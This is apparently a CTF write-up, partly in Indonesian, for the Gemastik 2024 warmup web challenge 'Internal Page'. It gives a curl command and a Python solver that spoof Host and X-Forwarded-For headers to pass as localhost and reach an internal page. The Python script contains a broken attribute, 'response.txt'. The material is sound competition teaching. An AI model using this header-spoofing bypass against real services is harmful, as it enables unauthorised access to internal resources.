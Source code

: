 ```yaml
---
description: Gemastik CTF 2024 (UNNES) warmup writeup.
icon: fire
cover: >-
  https://images.unsplash.com/photo-1597733336794-12d05021d510?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwzfHxuZXR3b3JrfGVufDB8fHx8MTc0MDg3NTc3Mnww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# Warmup

## 1. Internal Page (Web - Easy)

### 1.1. Description

* Basically, challenge ini seperti judulnya, yaitu pemanasan dengan melakukan request ke internal domain dari website challenge gemastik.
* Dengan tambahan HTTP header `X-Forwarded-For`, kita bisa memanipulasi request supaya bisa seolah-olah request dari localhost.

### 1.2. POC using cURL

{% code overflow="wrap" %}
```bash
curl -H "Host: internal.gemastik" -H "X-Forwarded-For: 127.0.0.1" ctf.gemastik.id:9005
```
{% endcode %}

### 1.3. POC using Python

{% code title="solver.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/local/python/3.13.1/bin/python3.13.1

import requests

URL: str = "http://ctf.gemastik.id:9005"
headers: dict = {"Host": "internal.gemastik.puspresnas.go.id", "X-Forwarded-For": "127.0.0.1"}

response: str = requests.get(URL, headers=headers)
status_code: int = response.status_code
if status_code == 200:
	print(response.txt)
	print(response.headers)
else:
	print("Failed!")
```
{% endcode %}

## Other Warmup Challenges

All warmup challenges can be see at the following url:

[https://oto.lv.tab.digital/s/sSwGJYxbYdrj3qN](https://oto.lv.tab.digital/s/sSwGJYxbYdrj3qN)

***

**Tags**: #ctf, #web, #warmup
